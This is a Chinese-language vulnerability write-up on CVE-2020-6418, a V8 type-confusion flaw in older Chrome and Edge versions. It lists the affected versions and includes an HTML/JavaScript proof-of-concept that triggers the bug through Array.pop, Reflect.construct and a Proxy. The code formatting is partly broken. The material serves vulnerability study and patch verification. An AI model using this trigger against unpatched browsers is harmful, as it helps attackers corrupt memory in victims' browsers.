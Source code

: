 ```yaml
---
title: （CVE-2020-6418）Chrome 远程代码执行漏洞
id: zhfly2961
---
```


# （CVE-2020-6418）Chrome 远程代码执行漏洞

## 一、漏洞简介

在Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中，开源JavaScript和WebAssembly引擎V8中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。

## 二、漏洞影响

Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
    <script>
        ITERATIONS = 10000
        TRIGGER = false

```
 function f(a,p){
        return a.pop(Reflect.construct(function(){}, arguments, p))
    }

    let a;
    let p = new Proxy(Object, {
        get: function(){
            if (TRIGGER){
                a[2] = 1.1;
            }
            return Object.prototype;
        }
    });
    for(let i = 0; i &lt; ITERATIONS; i++){
        let isLastIteration = i==ITERATIONS-1;
        a = [0,1,2,3,4];
        if(isLastIteration)
            TRIGGER = true;
        console.log(f(a,p));
    }
    console.log(a)
&lt;/script&gt; 
``` `</head>

<body>

CVE-2020-6418 PoC!

</body>` 
```

## 参考链接

> https://github.com/ChoKyuWon/CVE-2020-6418/blob/master/poc.html